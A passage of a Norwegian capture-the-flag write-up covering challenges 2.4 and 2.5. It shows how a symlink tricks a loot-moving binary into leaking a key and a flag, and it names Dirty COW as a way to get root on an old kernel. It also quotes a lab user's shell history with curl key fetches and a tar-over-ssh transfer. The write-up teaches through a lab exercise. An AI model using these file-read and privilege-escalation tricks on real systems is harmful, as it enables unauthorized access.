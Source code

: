 For dette flagget, så opprettet jeg et symbolsk lenke i `/home/lootd` som pekte på `/vault/loot/key`, og så gjettet jeg på at det fantes en fil kalt `FLAG` inni der.

```bash
$ pwd
/home/lootd
$ ln -s /vault/loot/key key
$ /usr/sbin/moveloot -f key
81f75f6eda0a961eba3b4e6ce7400510
$ /usr/sbin/moveloot -f /vault/loot/FLAG -k 81f75f6eda0a961eba3b4e6ce7400510
```

Nøkkelen er md5("sandworm"), og vi kan nå lese alle filer eid av `vault` - hvis vi vet navnet på de.

En alternativ løsning på denne oppgaven, er å utnytte at kernelen er dødsgammel: `Linux e1e9616e7e75 4.8.0+ #15 SMP Thu Oct 13 20:07:36 UTC 2016 x86_64 Linux`.
Denne versjonen er sårbar mot f.eks. Dirty cow, som enkelt lar deg overskrive en suid-binary (mount eller umount) med shellcode. Bare pass på at den peker på `/bin/ash`, da `bash` ikke finnes på serveren.

## 2.5_headquarters

Denne oppgaven kan løses rett etter man har løst 2.2, og avhenger kun av 2.1 og muligheten til å lese filer som `vault`.

Inne i `/home/vault/.ash_history`, ligger det noen kommandoer som denne brukeren har kjørt:

```bash
curl -o /tmp/xxx http://keystore/query.php?keyname=oper@cloud-mgr-72
cat /tmp/xxx
rm -rf /tmp/xx
exit
find /vault/loot -type f
find /vault/loot -type f | wc -l
du -ms /vault/loot
curl http://keystore/query.php?keyname=oper@cloud-hq-42
vi id
tar cz /vault/loot | ssh -i id oper@cloud-hq-42 lootimport
rm id
exit
```

De har altså logget seg på en annen server, `oper@cloud-hq-42` vha. en private key. De har også lastet ned nøkkelen til `/tmp/xxx`, men tukla til slettingen av den, så den ligger der enda. `xxx` er derimot eid av `vault`, så vi kan ikke lese den ut direkte. Forsøker vi å spørre keystore-serveren om den samme nøkkelen, så ser vi også at den ikke eksisterer lengre. Men vha. de samme teknikkene som i 2.4, så kan man lese ut innholdet av denne med moveloot, uten å trenge noen key. 

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF5303+AgwCFCG+e2TyB3CcNm+qPwrdkHzwrnqLrWC3+2TbiXBhWH/mGCVwJ9HmFcYXoYNvNP9c3s6XyZI4otiwn7XGyUW1adR2h89+ExNpYMJX4EQaKPgHSe9vku2IkzxvTUut2mxCZVzM6r7U9IrHmQt+degexjd0DGvF+AFjOqfEJP8hWDdZzZee3QJPWCwJi65I1148Sz/y10ORdWwVGhYl9Wsg20iXM+m/4xBfIhkCEiI3UCwYQFvLoXg+k9L4ogrHaAoX9/FrNi1HwthOGSr/h89TyP3KzAN3/jUSzLkl3AtENzDe2xtXyMMd3qXHoxat2k1FepPj8S74oIp oper@cloud-mgr-72
```
